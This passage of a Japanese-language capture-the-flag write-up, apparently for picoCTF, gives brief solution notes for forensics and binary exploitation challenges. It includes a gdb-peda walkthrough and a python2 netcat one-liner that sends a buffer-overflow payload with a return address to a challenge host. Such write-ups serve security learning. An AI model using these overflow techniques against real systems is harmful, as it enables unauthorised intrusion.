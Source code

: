 bzip2 -dvk flag.bz2
gzip -d flag.gz
lzip --decompress flag.lz
lz4 -d flag.lz4
unlzma flag.lzma
lzop -d flag.lzo
lzip --decompress flag.lz
xz -dv flag.xz
```
最後のASCII textファイルは16進数になっているので、ASCII文字列に変換する。
### Lookey here(100)
エディタのファイル検索機能や`grep`コマンドを使用してフラグを探す。
### Packets Primer(100)
pcapファイルをwiresharkで読む。TCPストリームで見ると、フラグが見つかる。
### Redaction gone wrong(100)
pdfエディタで黒塗りの部分の文字列を選択&コピーし、どこかにpasteする。
### Sleuthkit Intro(100)
LinuxなどにSleuthkitを入れる。
```
mmls disk.img
```
指定されたURLとportに`netcat`でアクセスし、LinuxパーティションのLengthを入力する。
### (unsolved)Sleuthkit Apprentice(200)
### (unsolved)Eavesdrop(300)
### (unsolved)Operation Oni(300)
### (unsolved)St3g0(300)
### (unsolved)Operation Orchid(400)
### (unsolved)SideChannel(400)
### (unsolved)Torrent Analyze(400)


## Binary Exploitation
### basic-file-exploit(100)
プログラムを見ると、コマンド`2`で`flag`文字列をput出来そうなことがわかる。
`strtol()`関数はchar配列の数字をintの数字に変える？。返り値が0になるのは、数字に変換できずエラーになった時なので、文字列を打ち込めばよい。
### buffer overflow 0(100)
とりま,たくさんの文字を入力してみる。19文字以上の文字列では、SIGSEGVがトリガーされ、フラグが表示される。
### CVE-XXXX-XXXX(100)
問題文のCVEをググるだけ。
### buffer overflow 1(200)
このリンクをみてやり方を学ぶ。(https://qiita.com/Kuroakira/items/82446f083ee2fd05e925#%E7%8F%BE%E7%8A%B6%E3%82%92%E6%95%B4%E7%90%86)  
`gdb-peda`と`python2`を使用して、flagを出す。
```
chmod +x vuln
gdb vuln
gdb-peda$ disas win
gdb-peda$ b vuln
gdb-peda$ n
...
```
フラグの入手(python2系でやること！)。宛先アドレスはリトルエンディアンでかくこと。
```
python -c "print 'a' * 44 + '\xfa\x91\x04\x08';" | nc hostname port_number
```
### RPS(200)
`strstr()`の動作を知る。入力は、"rockpaperscissors"とし続ければ良い。
### (unsolved)x-sixty-what(200)
### (unsolved)buffer overflow 2(300)
### (unsolved)buffer overflow 3(300)
### (unsolved)flag leak(300)
### (unsolved)ropfu(300)
### (unsolved)wine(300)
### (unsolved)function overwrite(400)
### (unsolved)stack cache(400)
```